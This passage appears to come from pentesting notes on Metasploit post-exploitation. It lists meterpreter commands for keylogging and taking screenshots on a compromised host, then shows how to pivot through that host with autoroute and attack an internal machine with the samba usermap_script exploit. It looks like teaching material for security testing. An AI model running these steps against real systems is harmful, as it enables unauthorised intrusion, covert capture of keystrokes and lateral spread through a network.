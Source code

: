 List active sessions:
`> sessions -l`

Connect to an active session:
`> sessions -i 2`

Start the KeyScan program:
`meterpreter > keyscan_start`

To see all keystrokes that are reccorded:
`meterpreter > keyscan_dump`

To stop this program:
`meterpreter > keyscan_stop`

#### Get Screenshots

Simply enter the command:
`meterpreter > screenshot`

Image goes to the root directory.

## Pivoting

Here is shown how to use the hacked device as a pivot to gain access to other devices on the network.

Connect to an active session:
`> sessions -i 2`

Check all ipsettings and interfaces:
Find a interface/subnet that is not visible to the hackers device where the target is connected to
`meterpreter > ifconfig`

Use an exploit to create a route between the hacker and the internal network found by ifconfig:
`meterpreter > run autoroute -s 10.2.2.1/24`

Background current session:
`meterpreter > background`

Use an exploit to hack the new device through the new route, the device will now be visible for the hackers device
`msf > use exploit/multi/samba/usermap_script`
`msf(usermap_script) > show options`
`msf(usermap_script) > set RHOST 10.20.15.4` (target computer)
`msf(usermap_script) > show payloads`
`msf(usermap_script) > set PAYLOAD cmd/unix/bind_netstat`
`msf(usermap_script) > exploit`

# Website Penetration testing














	
